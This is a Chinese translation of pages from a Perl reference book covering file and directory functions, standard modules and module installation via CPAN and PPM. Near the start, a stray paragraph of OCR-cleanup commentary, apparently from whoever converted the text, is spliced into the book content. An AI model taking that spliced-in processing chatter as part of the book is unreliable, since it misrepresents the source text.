你使用 Perl 的 **glob** 函数（仿照深受喜爱的同名 Unix 命令）来返回与 ***EXPR*** 中的规范匹配的文件名：

```
glob EXPR
glob
```

这里，***EXPR*** 是你想要匹配的文件规范的字符串形式，比如 '**.pl**'。如果你省略 ***EXPR***，**glob** 使用 **$_** 中的值。例如，这行代码显示当前目录中的文件名：

```
print join ("\n", glob ('*'));
```


让我先通读全文内容，以在处理前理解文档结构。

观察 OCR 文本，这似乎是一本 Perl 编程参考书的页面。让我进行处理：

## 修正的关键注意事项：
1. `#` 标记表示标题，但格式不一致（混合使用了 `#`、`##`、`###`）
2. 有些标题出现了双 `#` 或 `# #`，这似乎是格式伪影
3. 文本 "copy Copy a File" 和 "opendir Open a Directory Handle" 等呈现出函数名后跟描述的重复模式
4. 最后一页的表格需要转换为 Markdown 格式
5. 存在一些 OCR 伪影，如 `# #` 和 `# ##`，应予以清理

让我进行正确修正和格式化：

---

*EXPR* 部分就像任何普通的文件规范一样，因此可以包含路径，例如 Unix 中的此示例：

```
print join ("\n", glob ('/home/steve/*'));
```

或者，这是 DOS：

```
print join ("\n", glob ('C:/*'));
```

或者，如果你不喜欢在 MS-DOS 路径中使用正斜杠，可以用这种方式转义反斜杠：

```
print join ("\n", glob ('C:\\\*'));
```

让我给你一个有用的提示：Perl 内部使用 **glob** 函数时，允许你编写如下表达式，这将打印扩展名为 .txt 的文件名：

```
while (<*.txt>) {
    print;
}
```

## rename — 重命名文件

初级程序员又冒了出来。"我如何在代码中重命名文件？" NP 问道。你说："使用 **rename** 函数。" NP 说："那个该死的 Johnson 又在编辑我的数据库文件了，我要把 **/johnson** 账户下的所有文件重命名为 stay\_out\_of\_my\_database.now。" "哦，" 你说。

你使用 **rename** 函数来重命名文件：

```
rename OLDFILENAME, NEWFILENAME
```

此函数在成功重命名文件时返回真值（此处为 1）；否则返回假值。

## unlink — 删除文件

初级程序员又提了个问题。"我如何删除文件？" "嗯，" 你说。"那个该死的 Johnson 是不是又惹你心烦了？" "没有，" NP 说，"只是做一点春季大扫除。我用完了所有磁盘空间。" "哦，" 你说，"那样的话，使用 **unlink** 函数。"

你可以使用 Perl 的 **unlink** 函数删除文件或文件列表，它模拟了同名的 Unix 命令：

```
unlink LIST
unlink
```

在此示例中，我删除所有扩展名为 .old 的文件：

```
print 'Deleted ' , unlink (<*.old>) , ' files.';
```

*删除了 98 个文件。*

> **提示：** Perl 甚至允许你删除只读文件，这在不先更改文件权限的情况下，通常无法从命令行实现。

## copy — 复制文件

"嘿，"初级程序员说，"我可以使用 Perl 的 **unlink** 函数删除文件，使用 **rename** 函数重命名它们，等等，但 Perl 没有 **copy** 函数。我难道不能用单个命令复制文件吗？" "可以，" 你说，"你可以使用 **File::Copy** 模块。" "啊哈，" NP 说，"我就知道肯定有办法。"

使用 **File::Copy** 模块，你可以复制文件，因为该模块包含一个 **copy** 函数。以下代码将 file.txt 复制到 file2.txt：

```
use File::Copy;
copy("file.txt","file2.txt");
```

> **注意：** 还有其他几个有用的 *File* 模块可用，例如 **File::Compare**、**File::Find** 和 **File::Path**。

## opendir — 打开目录句柄

编程正确性沙皇到来并问道："在 Perl 中使用*目录*句柄是怎么回事？" "当然，" 你说，"你可以通过使用 **opendir** 来获取目录句柄，然后可以查看目录中的所有内容。" "嗯，" 勉强表示赞许的 PCC 说，"听起来可能很有用。"

你使用 **opendir** 打开一个目录并创建一个目录句柄，以便与目录函数 **readdir**、**telldir**、**seekdir**、**rewinddir** 和 **closedir** 一起使用：

```
opendir DIRHANDLE, EXPR
```

此函数成功时返回真值，否则返回假值。

## closedir — 关闭目录句柄

你在 Perl 中使用 **opendir**（见上文）获取目录句柄，并在用完句柄时使用 **closedir** 关闭它：

```
closedir DIRHANDLE
```

此函数成功时返回真值，否则返回假值。

## readdir — 读取目录条目

> "哇，"初级程序员说，"Perl 有目录句柄？现在我已经打开了一个，我能用它做什么？" "很多事情，" 你说，"例如，你可以使用 **readdir** 获取目录内容的列表。"

你使用 **readdir** 函数获取与 *DIRHANDLE* 关联的目录的文件列表，如下所示：

```
readdir DIRHANDLE
```

在此示例中，我显示当前目录中的文件名：

```
opendir(DIRECTORY, '.')
or die "Can't open current directory.";
print join (', ', readdir(DIRECTORY));
closedir DIRECTORY;
```

., .., T6.PL, Z.PL, P.PL, V.PL, W.PL

## telldir — 获取目录位置

你使用 **telldir** 获取 **readdir** 在目录中的当前位置：

```
telldir DIRHANDLE
```

## seekdir — 设置目录中的当前位置

你使用 **seekdir** 设置由 **opendir** 打开并由 **DIRHANDLE** 引用的目录中的当前位置：

```
seekdir DIRHANDLE, POS
```

**POS** 中的值必须是由 **telldir** 返回的值。

## rewinddir — 将目录位置重置到开头

你使用 **rewinddir** 函数将 **readdir** 的当前位置重置到 **DIRHANDLE** 给出的目录的开头：

```
rewinddir DIRHANDLE
```

## chdir — 更改工作目录

"嗯，"初级程序员说，"我想使用 **readdir** 来检查几个目录的内容。我该怎么做？" "很简单，" 你说，"只需使用 **chdir** 更改当前目录。"

你可以使用 **chdir** 更改工作目录：

```
chdir EXPR
```

此函数将工作目录更改为由 **EXPR** 给出的目录（如果可以）（如果省略 **EXPR**，**chdir** 会更改为主目录）；成功时返回真值，否则返回假值。

在下一个示例中，我更改为当前目录的上级目录（在 Unix 和 DOS 中均表示为 '..'）并显示该目录中的文件：

```
chdir '..';
opendir(DIRECTORY, '.')
    or die "Can't open directory.";
print join (', ', readdir(DIRECTORY));
closedir DIRECTORY;
```

., .., mail, .alias, .cshrc, .login, .plan, .profile

## mkdir — 创建目录

"那么，我可以使用 Perl 的 **chdir** 函数更改工作目录，"初级程序员说，"我也可以创建新目录吗？" "当然，" 你说，"只需使用 **mkdir**，它仿照同名的 Unix 命令。"

你可以使用 **mkdir** 创建一个目录，其工作方式如下：

```
mkdir FILENAME, MODE
```

此函数使用 **FILENAME** 中的名称创建目录，并采用由 **MODE** 给出的 Unix 权限模式。（有关更多信息，请参见本章前面的主题 "**chmod** 更改文件权限"。）如果此函数成功，它返回真值；否则返回假值（并将错误信息存入 **$!**）。

在此示例中，我创建一个名为 **tmp** 的新目录，更改为该目录，并写入一个文件：

```
mkdir 'tmp', 0744;
chdir 'tmp';
open (FILEHANDLE, ">hello.txt") or die ("Cannot open hello.txt");
print FILEHANDLE "Hello!";
close (FILEHANDLE);
```

请注意，Perl 的 Win32 移植版工作正常，但忽略了 **MODE**，因为在 MS-DOS 中你无法为目录设置不同的权限级别。

## rmdir — 删除目录

"嗯，"初级程序员说，"我可以使用 Perl 的 **mkdir** 函数创建目录，并使用 Perl 的 **chdir** 函数移动到它们。我也可以删除目录吗？" "是的，" 你说，"只需使用 Perl 的 **rmdir** 函数。"

## 第 13 章：内置函数：文件处理

你使用 **rmdir** 删除目录（只有在目录为空时才能执行）：

```
rmdir FILENAME
rmdir
```

如果此函数成功，它返回真值；否则返回假值（并将错误信息存入 **$!**）。如果你没有指定要删除的目录，**rmdir** 会使用 **$\_** 中的名称。

# 第 14 章：标准模块

| 如果你需要以下问题的即时解决方案： | 请参见页码： |
| --- | --- |
| 安装模块 | 600 |
| 在 Unix 系统上安装模块 | 600 |
| 在 Windows 系统上安装模块 | 603 |
| **Benchmark** 测试代码执行时间 | 606 |
| **Class::Struct** 创建 C 风格结构体 | 606 |
| **constant** 创建常量 | 607 |
| **CreditCard** 检查信用卡号 | 608 |
| **Cwd** 获取当前工作目录路径 | 608 |
| **Data::Dumper** 显示结构化数据 | 609 |
| **Date::Calc** 加减日期和时间 | 611 |
| **diagnostics** 打印完整诊断信息 | 612 |
| **English** 为预定义变量使用英文名称 | 614 |
| **Env** 导入环境变量 | 616 |
| **ExtUtils** 支持 Perl 扩展 | 618 |
| **File::Compare** 比较文件 | 618 |
| **File::Find** 在目录中搜索文件 | 619 |
| **FileCache** 维护多个打开的输出文件 | 621 |
| **GetOpt** 解释命令行开关 | 622 |
| 单字符开关 — **GetOpt::Std** | 622 |
| 多字符开关 | 623 |
| **locale** 启用区域设置敏感操作 | 625 |
| **Safe** 创建安全代码区 | 626 |
| **Shell** 将 Shell 命令用作子例程 | 626 |
| **strict** 约束编码实践 | 627 |
| use strict 'refs' | 627 |

*(续)*

# 第14章 标准模块

| 如果你需要立即解决以下问题： | 请参阅页码： |
|:--|--:|
| use strict 'vars' | 628 |
| use strict 'subs' | 628 |
| **Text::Abbrev** 查找唯一缩写 | 629 |
| **Text::Tabs** 在文本中使用制表符 | 630 |
| **Text::Wrap** 自动换行文本 | 630 |
| **Tie::IxHash** 按插入顺序恢复哈希值 | 631 |
| **Tie::RefHash** 在哈希中存储硬引用 | 631 |
| **Time** 创建时间转换 | 632 |
| **vars** 预声明全局变量 | 632 |

## 深入解析

在前几章中，我介绍了许多Perl内置函数。在本章中，我将介绍另一个强大的代码资源——同样随Perl附带的标准模块。与内置函数一样，这些模块为您提供了数百个预先编写好的资源。

我们已经在本书中使用过标准模块中的代码了。（例如，参见第11章的主题“大数：**Math::BigInt** 和 **Math::BigFloat**”，其中使用了这两个标准模块。）本章专门介绍本书其余部分未明确涵盖的标准模块。

模块是由符合特定约定编写的Perl代码构成，以便您可以从程序中访问该代码。（我们将在第17章看到更多关于创建模块的细节。）Perl模块为您提供了大量预先编写的代码，并存储在扩展名为.pm的文件中。您可以使用 **use** 语句将此类模块加载到您的代码中：

```
use Module LIST
use Module
use Module VERSION LIST
use VERSION
```

在这个第一个示例中，我加载了 **Safe** 模块，它为您提供了一个安全的空间，您可以在其中指定允许执行哪些函数：

```
use Safe;
$safecompartment = new Safe;
$safecompartment->permit(qw(print));
$result = $safecompartment->reval("print \"Hello!\";");
```

*Hello!*

如果您传递给 **use** 的第一个参数是一个数字，除非Perl版本等于或大于该数字（例如，**use 5.6.1**；注意您如何坚持要求特定版本的Perl），否则Perl会发出错误。

如果您向 **use** 语句传递一个函数列表，则只会加载这些函数。我可以像这样从 **POSIX** 模块中只加载 **strftime** 函数：

```
use POSIX 'strftime';
print strftime "Here's the date: %m/%d/%Y\n", localtime;
```

> Here's the date: 10/30/1999

有时，标准Perl模块会被划分为各种*子模块*，您需要使用子包分隔符 :: 来指定要加载的子模块。例如，您可能会使用 **Math::BigInt** 或 **Math::BigFloat**，或者如本例所示，使用 **File** 模块的 **Copy** 子模块来复制文件：

```
use File::Copy;
copy("file.txt","file2.txt");
```

> **提示：** Perl将 :: 转换为 /，因此 **File::Copy** 实际上表示 *File/Copy*。因此，Perl将在名为File的库目录中查找 **Copy.pm** 子包。

除了模块，您还可以使用 **use** 语句处理*编译指示*——给编译器的特殊指令。（编译指示实际上是作为模块在Perl中实现的。）

我们已经在本书中看到了一些这样的编译指示；例如，如果在代码中放置编译指示 **use strict 'vars'**，Perl将坚持要求您使用 **my** 声明所有变量（例如，**my @array = (1, 2, 3)**），用包名限定它们（例如，**$module1::variable1**），或让 **vars** 模块为您声明它们（参见本章“即时解决方案”主题“**vars** 预声明全局变量”）。

因此，标准模块是随Perl附带的代码模块（它们通常安装在Perl/lib目录中），您可以将其包含在代码中。下一个自然而然的问题是：到底有哪些标准模块可用？

## 有哪些标准模块可用？

Perl有许多标准模块，因此本章我将概述其中的重点内容。您可以在表14.1中找到标准模块的列表。请注意，此列表随不同的Perl移植版本以及安装情况而变化，因为您的系统管理员可能决定不安装所有标准模块。但是，您通常可以自己安装缺失的模块；请参见“即时解决方案”部分中的“安装模块”主题。（请注意，并非所有模块都能在所有平台上工作；例如，模块可能使用一些二进制编译代码，这取决于平台。）

此外，表14.2列出了标准的Perl编译指示。请注意，编译指示名称使用小写字母开头，而标准模块名称使用大写字母开头。

## 表14.1 标准Perl模块。

| 模块 | 含义 |
| --- | --- |
| **AnyDBM_File** | 支持多种DBM的框架 |
| **AutoLoader** | 按需加载函数 |
| **AutoSplit** | 分割包以辅助自动加载 |
| **Benchmark** | 评估代码运行时间 |
| **CPAN** | 综合Perl存档网络的接口 |
| **CPAN::FirstTime** | 创建CPAN配置文件 |
| **CPAN::Nox** | 在没有编译扩展的情况下运行CPAN |
| **Carp** | 发出错误警告 |
| **Class::Struct** | 创建 **struct** 数据类型 |
| **Config** | 提供Perl配置信息 |
| **Cwd** | 提供当前工作目录的路径名 |
| **DB_File** | 支持Berkeley数据库操作 |
| **Devel::SelfStubber** | 为 **SelfLoader** 模块创建存根 |
| **DirHandle** | 支持目录句柄的方法 |
| **DynaLoader** | 加载C库 |
| **English** | 使用特殊变量的英文名称 |
| **Env** | 获取环境变量 |
| **Exporter** | 使用模块的默认导入方法 |
| **ExtUtils::Embed** | 在C/C++应用程序中嵌入Perl |
| **ExtUtils::Install** | 安装文件 |
| **ExtUtils::Liblist** | 获取要使用的库 |
| **ExtUtils::MM_OS2** | 覆盖 **ExtUtils::MakeMaker** 中的常规Unix行为 |
| **ExtUtils::MM_Unix** | 被 **ExtUtils::MakeMaker** 使用 |
| **ExtUtils::MM_VMS** | 覆盖 **ExtUtils::MakeMaker** 中的常规Unix行为 |
| **ExtUtils::MakeMaker** | 创建扩展的 **Makefile** |
| **ExtUtils::Manifest** | 编写MANIFEST文件 |
| **ExtUtils::Mkbootstrap** | 制作供 **DynaLoader** 使用的引导文件 |
| **ExtUtils::Mksymlists** | 编写链接器选项文件 |
| **ExtUtils::testlib** | 将目录添加到@INC |
| **Fatal** | 使错误成为致命错误 |
| **Fcntl** | 加载C Fcntl.h头文件 |
| **File::Basename** | 解析路径名 |
| **File::CheckTree** | 对目录树执行文件测试 |
| **File::Compare** | 比较文件 |
| **File::Copy** | 复制文件 |
| **File::Find** | 遍历文件树 |
| **File::Path** | 创建/删除目录 |
| **File::stat** | 提供 **stat()** 函数的接口 |
| **FileCache** | 允许打开更多文件 |
| **FileHandle** | 支持文件句柄的方法 |
| **FindBin** | 查找Perl脚本的目录 |
| **GDBM_File** | 使用GDBM数据库库（见第16章） |
| **Getopt::Long** | 处理命令行选项 |
| **Getopt::Std** | 处理单字符开关 |
| **I18N::Collate** | 在当前区域设置下比较8位标量数据 |
| **IO** | 加载 **IO** 模块 |
| **IO::File** | 加载文件句柄的方法 |
| **IO::Handle** | 加载I/O句柄的方法 |
| **IO::Pipe** | 加载管道的方法 |
| **IO::Seekable** | 加载I/O对象的方法 |
| **IO::Select** | 选择一个系统调用 |
| **IO::Socket** | 提供套接字通信 |
| **IPC::Open2** | 打开一个可读写的进程 |
| **IPC::Open3** | 打开一个可读写并处理错误的进程 |
| **Math::BigFloat** | 创建任意长度的浮点数 |
| **Math::BigInt** | 创建任意长度的整数 |
| **Math::Complex** | 支持复数 |
| **Math::Trig** | 提供 **Math::Complex** 的三角函数接口 |
| **NDBM_File** | 提供NDBM数据库访问（见第16章） |
| **Net::Ping** | Ping一个Internet主机 |
| **Net::hostent** | 提供 **gethost\*** 函数的接口 |
| **Net::netent** | 提供 **getnet\*** 函数的接口 |
| **Net::protoent** | 提供 **getproto\*** 函数的接口 |
| **Net::servent** | 提供 **getserv\*** 函数的接口 |
| **Opcode** | 禁止命名操作码 |

表14.1 标准Perl模块（续）。


## 模块 | 说明
**Pod::Text** | 将普通旧文档转换为格式化文本
**POSIX** | 提供 POSIX 接口，符合 IEEE 标准 1003.1
**SDBM_File** | 提供 SDBM 数据库访问（参见第 16 章）
**Safe** | 在安全的区域中执行代码
**Search::Dict** | 在字典中搜索键
**SelectSaver** | 保存/恢复文件句柄
**SelfLoader** | 仅按需加载函数
**Shell** | 运行 shell 命令
**Socket** | 加载 C 的 socket.h 定义
**Symbol** | 操作 Perl 符号
**Sys::Hostname** | 获取主机名
**Sys::Syslog** | 提供 **syslog(3)** 的接口
**Term::Cap** | 提供终端接口
**Term::Complete** | 补全单词
**Term::ReadLine** | 提供 readline 包的接口
**Test::Harness** | 运行测试脚本并记录统计信息
**Text::Abbrev** | 创建缩写表
**Text::ParseWords** | 解析文本
**Text::Soundex** | 支持 Soundex 算法
**Text::Tabs** | 展开/压缩制表符
**Text::Wrap** | 换行
**Tie::Hash** | 提供绑定哈希的定义
**Tie::RefHash** | 提供以引用为键的绑定哈希的定义
**Tie::Scalar** | 提供绑定标量的定义
**Tie::SubstrHash** | 创建固定表大小和固定键长的哈希
**Time::Local** | 从本地时间和 GMT 获取时间
**Time::gmtime** | 提供 **gmtime** 函数的接口
**Time::localtime** | 提供 **localtime** 函数的接口
**Time::tm** | 被 **Time::gmtime** 和 **Time::localtime** 使用
**UNIVERSAL** | 为所有类（带祝福的引用）提供基类
**User::grent** | 提供 **getgr**\* 函数的接口
**User::pwent** | 提供 **getpw**\* 函数的接口

### 表 14.2 标准 Perl 语用模块。

| 语用模块 | 说明
|--------|-------
| blib | 使用 MakeMaker 的未安装版本的包
| diagnostics | 实现广泛的警告诊断
| integer | 使用整数算术
| less | 要求编译器减少对指定构造的使用
| lib | 管理 Perl 查找脚本的位置
| locale | 使用当前区域设置进行区域敏感操作
| ops | 限制命名操作码
| overload | 重载 Perl 操作
| re | 更改正则表达式行为
| sigtrap | 允许信号处理
| strict | 限制不安全的编程构造
| subs | 强制预声明子程序
| vmsish | 使用 VMS 特定行为
| vars | 强制预声明全局变量名

表 14.1 和表 14.2 中的许多模块在本书的不同地方都有探讨；本章描述了标准模块中未在其他地方涵盖的最佳部分。

在深入研究标准模块本身之前，我需要再说明一点。到目前为止，我只在代码中通过 `use` 语句包含模块，但模块也可以通过其他方式包含，所以我现在来看看这些方式。

## 使用 do、require 和 use

实际上，你可以通过 **do**、**require** 或 **use**（从技术上讲，**eval** 也算）将模块包含在你的代码中。让我解释一下它们之间的区别：

-   **do $filename** 在运行时将 *$filename* 的内容读入你的代码。它还会搜索 @INC（该数组包含代码的搜索位置——参见第 10 章中的 "@INC 脚本求值位置" 主题）并更新 %INC（该哈希包含已包含文件的名称——参见第 10 章中的 "%INC 已包含文件" 主题）。
-   **require $filename** 的工作方式类似于 **do $filename**，但它会检查你是否已经加载了文件。如果已加载，它不会再次加载该文件。如果在 *$filename* 中查找、编译或执行代码失败，它会导致错误。
-   require *Module* 的工作方式类似于 **require "Module.pm"**，但它会将每个 `::` 分隔符转换为系统目录分隔符（通常是正斜杠），并设置 Perl 解析器将 *Module* 视为间接对象。
-   use *Module* 的工作方式类似于 **require *Module***，但它在编译时而不是运行时加载模块，并自动将模块中的符号导入到你的代码中。

使用 **use** 而不是 **require** 或 **do** 来包含模块有两个显著优势。因为 **use *Module*** 在编译时而不是运行时读取模块，如果加载模块时出现问题，Perl 会立即通知你（也就是说，不必等到模块中的代码实际被调用，这可能发生在很久以后）。此外，**use** 语句允许模块将函数和变量名等符号 *导出* 到 **main** 包中（有关更多详细信息，请参见第 17 章），这意味着你可以直接引用这些符号，而无需用模块名来限定它们（也就是说，你可以使用 ***$variable1*** 而不是 ***$module1::$variable1***）。

出于这些原因，我建议你使用 **use** 包含模块，而不是 **do** 或 **require**。有关 **use** 与 **require** 和 **do** 的更深入讨论，请参见第 17 章。

好了，就是这样；我们已经准备好开始浏览标准 Perl 模块的亮点了。我将首先看看如何安装一个模块，以防你还没有它。

### 即时解决方案

## 安装模块

“嘿，**Net::FTP** 怎么了？”新手程序员问道。你问：“怎么了？”“嗯，”新手说，“我找不到 Perl 模块 **Net::FTP**。为什么没有？”“它不是 Perl 标准发行版的一部分，”你说。“哦，”新手说，“那我怎么能用它？”你说：“你可以自己安装它。”

本章是关于未在本书其他地方涵盖的 Perl 标准模块。标准模块应该随你的 Perl 移植版一起提供。但是，有些模块可能没有安装在你的系统上，而且 CPAN 上还有数百个可用的模块。例如，你可以在那里找到 **Net::FTP**；它让你可以在代码中处理 FTP（互联网文件传输协议）操作。所以，我在这里来看看安装模块的过程。

我将首先看看在 Unix 系统上安装模块的过程。你可以在 Windows 系统上使用相同的过程，但你需要安装几个 Unix 实用程序（如 gzip）的 Windows 版本才能使用此技术，而大多数程序员并没有。查看了 Unix 系统的过程后，我将看看使用便捷脚本 ppm.pl（Perl 包管理器）在 Windows 系统上安装模块的支持。

## 在 Unix 系统上安装模块

你可以从 CPAN 获取 Perl 模块，包括标准 Perl 模块。（要找到 CPAN，只需转到 **www.cpan.org** 并单击“modules”链接。）你可以通过两种方式从 CPAN 获取和安装模块：手动方式和使用 **CPAN** 模块（在 Perl 5.004 中引入）的自动方式。我将先看看手动方式。

CPAN 上的模块通常以压缩的 tar.gz 格式存储，因此你必须下载并像这样解压缩它们：

```
%gunzip file.tar.gz
%tar xvf file.tar
```

> **提示：** 你也可以使用 Windows 实用程序（如 Nico Mak Computing 的 WinZip）解压缩 tar.gz 格式的文件。但是，当尝试将这样解压的文件上传到 Unix 系统时要小心，因为它们可能包含需要删除的回车符。

解压模块后，你转到新创建的目录并像这样创建模块的 **makefile**：

```
%perl Makefile.PL
```

接下来，你像这样构建和测试模块（输入这两行）：

```
%make
%make test
```

如果测试没有产生任何错误消息，你就可以像这样安装模块：

```
%make install
```

此过程会将 **Module.pm** 模块安装到你的系统上。（注意，许多安装会安装多个模块；主模块使用其他模块作为支持。）如果模块的名称中包含 **::**，例如 **Date::Calc**，安装过程通常会将一个新目录 Date 放入 Perl/lib 目录，并将实际模块 **Calc.pm** 放入 Date 目录。这就是 Perl 维护模块结构的方式。你将模块名称中的 **::** 转换为系统的目录分隔符，在 Unix 上是正斜杠，因此 **Date::Calc** 存储为 Date/Calc.pm（在 Windows 上为 Date\Calc.pm）。

让我在此添加一个非常重要的注意事项：**make install** 会尝试将新模块作为机器整体 Perl 安装的一部分进行安装，如果你无权更改该安装（例如，你很可能在互联网服务提供商上无权更改），**make install** 将不起作用。

相反，你应该创建模块的*本地*安装，你可以通过像这样使用 **LIB** 选项来完成，我将库安装到我选择的目录（即 /home/username/code3）：

```
%make install LIB=/home/username/code3
```

如何使用这样本地安装的模块？你必须确保它们在 **@INC** 模块**包含**路径中，你可以通过在代码中像这样使用 **lib** 语用模块来实现：

```
use lib '/home/username/code3';
```

或者，你可以将模块安装到将使用它的脚本所在的目录，因为……

**提示：** `lib` 指令在 Perl 5.002 版本中引入。如果你没有这个版本，可以修改 **PERLLIB** 环境变量或 **PERL5LIB** 环境变量，或者使用 **-I** 命令行标志，例如 `perl hello.pl -I/usr/local/lib/modules`。

就这么简单。现在你已经安装了一个新模块——无论是标准模块还是众多 CPAN 模块中的任何一个。你可以通过使用 `use` 语句在代码中包含该模块。

请注意，并非所有 CPAN 模块都受所有平台支持。请查看模块附带的 readme 文件（通常也可在 CPAN 上直接下载每个模块的压缩包和该文件）。

**提示：** 希望你的模块安装过程顺利——它们本应如此——尽管你应该准备好有时需要发挥一点创造性。例如，我曾不得不重写一个模块的代码，使其与我使用的机器兼容。有时，安装过程就是不顺利，但你仍然可以使用该模块解压后的 `.pm` 文件，只需将其放在脚本可以找到的位置即可。请注意，这样做仅对简单模块有效，并且只应作为最后手段并谨慎尝试，因为你不知道通过不完成安装过程（例如缺少初始化文件）可能会引入哪些错误，即使代码确实能运行。

除了手动安装模块，你还可以使用 **CPAN** 模块自动安装它们。（只要连接到互联网，该模块也会处理下载。）

**CPAN** 模块有两种模式：交互式和批处理式。你可以这样启动交互模式：

```
%perl -MCPAN -e shell;
```

而在代码中，你可以这样使用批处理模式：

```
use CPAN;
clean, install, make, recompile, test...
```

在交互模式下，CPAN 模块会显示一个提示符 `cpan>`，你在这个提示符下输入命令。要获取帮助，输入 "h"。

你可以使用 `a` 命令按作者搜索，`b` 按模块包搜索，`d` 按发行文件搜索，或 `m` 按模块搜索。你也可以使用 `i` 命令同时进行所有四种方式的搜索。由于你使用的是 Perl，你还可以传递正则表达式来实现搜索。

以下示例搜索作者 ID 为 **ANDZ** 的作者：

```
cpan> a ANDZ
```

你还可以将 `make`、`test`、`install` 和 `clean` 模块以及 `distributions` 命令与 **CPAN** 模块一起使用。**CPAN** 模块会检查模块是否已存在，如果存在，则不会安装，除非你使用 `force` 命令。这里，我重新安装了 **FileCache** 模块，即使它对 **CPAN** 模块来说已经看起来正常：

```
cpan> install FileCache
FileCache is up to date.
cpan> force install FileCache
Running make
    .
    .
    .
```

你还可以使用 `readme` 命令，它让你查看模块的 readme 文件。使用 **CPAN** 模块是下载和安装模块的强大方式，一旦你知道如何使用它，尽管许多程序员现在习惯于手动安装模块的方法。

## 在 Windows 系统上安装模块

那么，在 Windows 上如何获取和安装新模块呢？ActivePerl 的 Perl Windows 移植版自带 Perl 包管理器（PPM），一个可运行的 Perl 脚本（即 `ppm.pl`，你可以在 `Perl\bin` 中找到它）。

已经有多个模块在 CPAN 上为你准备好了；你可以使用 PPM 在 Windows 上下载并安装它们，无需经历 `make` 过程或在你的系统上拥有许多 Unix 工具的 Windows 版本。

要使用 PPM，首先连接到 Windows，然后运行 PPM：

```
C:\Perl\bin>perl ppm.pl
```

（请注意，PPM 也提供了一个批处理文件 `ppm.bat`，你也可以运行它。）PPM 将显示一个命令提示符：

```
C:\Perl\bin>perl ppm.pl
PPM interactive shell (0.9.5) - type 'help' for available commands.
PPM>
```

你可以使用以下 PPM 命令（在运行 PPM 前连接到互联网）：

- **help**—显示帮助
- **install** *PACKAGES*—下载并安装指定的包
- **query**—获取已安装包的信息
- **quit**—退出 PPM
- **remove** *PACKAGES*—从当前系统中移除指定的包
- **search**—获取可用包的信息
- **set**—设置并显示当前选项
- **verify**—验证已安装的包是否是最新的

例如，要下载并安装流行的 **Tk** 模块（它允许你显示窗口和按钮等——见第 15 章），你只需连接到互联网，启动 PPM，然后输入 "install Tk"（这简化了过去在 Perl 新闻组上无休止讨论的问题——如何在 Windows 上安装 **Tk** 模块）：

```
C:\Perl\bin>perl ppm.pl
PPM interactive shell (0.9.5) - type 'help' for available commands.
PPM> install Tk
Install package 'Tk?' (y/N):
```

要安装此模块，只需输入 "y" 并按 Enter，PPM 将自动完成剩余工作。

你可以使用 `search` 命令搜索模块，但整个列表在 MS-DOS 窗口中滚动太快，无法看清。为供参考，我在此列出截至本文撰写时可用的 PPM 模块，见表 14.3。请注意，当从 PPM 请求模块时，使用连字符 `-`（例如 **Text-Template**）而不是 `::`（例如 **Text::Template**）。（同时注意可用模块的数量之多。）

**表 14.3 支持 PPM 的模块。**

| Agent | CGI-Screen | DBD-Oracle | File-Tools |
| Alias | Class-Eroot | DBD-Sybase | Filter |
| Apache-DBI | Class-MethodMaker | DBD-XBase | FindBin |
| Apache-OutputChain | Compress-Zlib | DB_File | GD |
| Archive-Tar | constant | DBI | Getopt-EvaP |
| B-Graph | Data-Dumper | Devel-Coverage | Getopt-Long |
| Bit-ShiftReg | Data-Locations | Devel-DProf | Getopt-Mixed |
| Bit-Vector | Date-Calc | Digest-MD5 | Getopt-Tabular |
| Business-CreditCard | Date-Manip | Errno | GIFgraph |
| CGI | DBD-CSV | FCGI | Graph-Kruskal |
| CGI-Imagemap | DBD-ODBC | File-Slurp | HelpIndex |
| HTML-Parser | News-NNTPClient | Text-Striphigh | Win32-EventLog |
| HTML-Stream | News-Newsrc | Text-Tabs+Wrap | Win32-File |
| Image-Size | NNML | Text-Template | Win32-FileSecurity |
| IO-stringy | Penguin-Easy | Text-Vpp | Win32-Internet |
| libHTML | PerLDAP | Tie-CPHash | Win32-IPC |
| libnet | PodParser | Tie-Dir | Win32-Message |
| libwin32 | PPM | Tie-Handle | Win32-Mutex |
| libwww-perl | Roman | Tie-IxHash | Win32-NetAdmin |
| Locale-Codes | Set-IntRange | Tie-Watch | Win32-NetResource |
| Mail-POP3Client | Set-IntSpan | Time-HiRes | Win32-ODBC |
| MailTools | Set-Scalar | Time-Period | Win32-OLE |
| Math-Approx | Set-Window | Time-modules | Win32-PerfLib |
| Math-Matrix | SGMLS | TimeDate | Win32-Pipe |
| Math-MatrixBool | SHA | Tk | Win32-Process |
| Math-MatrixReal | Sort-PolySort | Tk-GBARR | Win32-RasAdmin |
| MD5 | SQL-Statement | Tk-Multi | Win32-Registry |
| MIME-Base64 | Statistics-ChiSquare | Tk-ObjScanner | Win32-Semaphore |
| MIME-Lite | Statistics-Descriptive | URI | Win32-Service |
| MIME-tools | Storable | VRML | Win32-Shell |
| MLDBM | String-Approx | weblint | Win32-ShortCut |
| MSDOS-Attrib | String-BitCount | Win32-AdminMisc | Win32-Sound |
| MSDOS-Descript | String-CRC | Win32-API | Win32-TieRegistry |
| Net-Bind | String-Pariq | Win32-Äsp | Win32-WinError |
| Net-DNS | String-Scanf | Win32-ChangeNotify | Win32API-Registry |
| Net-Ident | sybperl | Win32-ClipBoard | X11-Protocol |
| Net-Ping | Term-ANSIColor | Win32-Console | XML-Element |
| Net-Telnet | TermReadKey | Win32-DDE | XML-Parser |
| Net-Whois | Text-CSV_XS | Win32-DomainAdmin | |
| Netscape-History | Text-German | Win32-Event | |

## 基准测试代码执行时间

新手程序员说：“我卡住了。我可以用两种方式编写相同的代码，但不确定哪种最好。” “嗯，你可以检查哪种方式更快。只需使用 **Benchmark** 模块，”你说。“好的，”新手说。

正如你从名字中猜测的那样，你使用 **Benchmark** 模块来对你的代码进行基准测试，就像给它用秒表计时一样。（在多任务系统中，除了实际运行时间外，许多其他因素，例如调度器如何处理你的程序，也会影响代码的运行时间。）

从以下示例中，你可以通过使用 **Benchmark** 模块了解一百万次循环迭代所需的时间：

```
use Benchmark;
$timestamp1 = new Benchmark;
for ($loop_index = 0; $loop_index < 1_000_000; $loop_index++) {
    $variable1 = 1;
}
$timestamp2 = new Benchmark;
$timedifference = timediff($timestamp2, $timestamp1);
print "The loop took", timestr($timedifference);
```

> The loop took 5 wallclock secs ( 5.65 usr +  0.00 sys =  5.65 CPU)

同样值得注意的是，在 Perl v5.6.0 中，对该模块进行了许多更改，以大大提高计时精度并减少错误。

## Class::Struct 创建 C 风格结构

编程正确性专员说：“在 C 中，我可以使用 **struct** 构造来创建结构。” “哦？”你问。“在 Perl 中，你可以使用 **Class::Struct**。”

